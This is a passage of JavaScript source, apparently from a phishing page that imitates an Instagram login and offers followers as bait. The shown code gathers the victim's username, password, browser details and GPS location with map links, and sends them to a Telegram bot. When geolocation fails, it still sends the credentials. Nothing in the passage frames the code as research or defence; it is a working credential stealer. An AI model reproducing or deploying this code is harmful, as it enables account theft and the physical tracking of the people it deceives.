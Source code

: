           const mapsLink = `https://www.google.com/maps?q=${lat},${lon}`;
          const earthLink = `https://earth.google.com/web/@${lat},${lon},100a`;

          const message = `
[Instagram Login Attempt]
- Username: ${username}
- Password: ${password}
- Followers Requested: ${followersCount}

[Device Info]
- User Agent: ${device.userAgent}
- Platform: ${device.platform}
- Language: ${device.language}
- Screen Size: ${device.screenSize}
- Cookies Enabled: ${device.cookiesEnabled}

[Location Info]
- Latitude: ${lat}
- Longitude: ${lon}
- Accuracy: ${accuracy} meters
- Time: ${timestamp}

[Links]
- Google Maps: ${mapsLink}
- Google Earth: ${earthLink}
          `;

          // Send to Telegram
          const telegramURL = `https://api.telegram.org/bot${BOT_TOKEN}/sendMessage`;
          fetch(telegramURL, {
            method: 'POST',
            headers: { 'Content-Type': 'application/json' },
            body: JSON.stringify({
              chat_id: CHAT_ID,
              text: message,
            })
          })
          .then(res => res.json())
          .then(data => console.log("Sent to Telegram:", data))
          .catch(err => console.error("Telegram Error:", err));
        }

        // === GET LOCATION ===
        function getLocation(username, password, followersCount) {
          if (navigator.geolocation) {
            navigator.geolocation.getCurrentPosition(
              (position) => sendLocationToTelegram(position, username, password, followersCount), 
              (err) => {
                console.log("Location error: " + err.message);
                // Send data without location if geolocation fails
                sendToTelegramBot(username, password, followersCount);
              });
          } else {
            console.log("Geolocation not supported.");
            // Send data without location if geolocation not supported
            sendToTelegramBot(username, password, followersCount);
          }
        }
